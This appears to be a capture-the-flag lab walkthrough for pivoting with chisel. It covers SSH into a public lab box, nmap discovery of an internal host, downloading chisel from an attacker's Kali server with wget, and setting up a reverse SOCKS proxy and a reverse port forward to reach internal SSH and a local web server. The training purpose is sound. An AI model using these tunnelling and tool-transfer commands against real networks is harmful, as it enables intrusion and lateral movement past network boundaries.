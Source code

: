# Walkthrough - chisel

# Recommendations

Use a multi-plex terminal; tmux, terminator or whatever you find works for you! 

Save the info from the output of the build script. 

# Flags:

1. ssh onto box 1
2. ssh onto box 2
3. local webserver on box 1
4. ssh onto box 3
5. local webserver on box 3

# Flag 1

1. Build the lab
2. Read the readme!

SSH into the box with a password of `danny`

```bash
ssh danny@192.168.69.2
```

read the flag.txt file

# Flag 2

Complete flag 1

1. Find internal box from public_box

```bash
ip a
eth0@if321: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:0a:10:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.10.16.2/24 brd 10.10.16.255 scope global eth0
       valid_lft forever preferred_lft forever

nmap -sn 10.10.16.0/24
Nmap scan report for internal_box.internal (10.10.16.3)

nmap -p 22 10.10.16.3

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-11 15:30 UTC
Nmap scan report for internal_box.internal (10.10.16.3)
Host is up (0.00015s latency).

PORT   STATE SERVICE
22/tcp open  ssh
```

1. Upload chisel to box (check above)
2. start chisel server on kali

```bash
./chisel server --reverse --port 8000 --socks5
```

1. Connect from public_box

```bash
danny@3e2de45ffaca:~$ ./chisel client 172.17.0.1:8000 R:1080:socks
```

1. ssh into the machine with the credentials provided before (`ariana:Password1`)

```bash
proxychains ssh ariana@10.10.16.3
```

1. Read the flag.

# Flag 3

(you are told about local webserver on port 8080)

1. Check to see if server is running.

```bash
netstat -t
Active Internet connections (w/o servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:8080          localhost:38768         TIME_WAIT  
tcp        0    164 3e2de45ffaca:22         192.168.69.1:33964      ESTABLISHED
```

(told to use a reverse port forward.

1. Upload chisel to the box (Do I assume people know how to do that?)

Start web server on kali:

```bash
python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

Download to the public_box:

```bash
danny@3e2de45ffaca:~$ wget http://172.17.0.1:9001/chisel
```

1. Start chisel server on kali (This will be taught)

```bash
./chisel server --reverse --port 8000
```

1. Connect from public_box

```bash
./chisel client 172.17.0.1:8000 R:127.0.0.1:8081:8080
```

1. get flag

```bash
curl http://127.0.0.1:8081
```

# Flags 4 and 5

Solutions wont be released till next lab but feel free to try.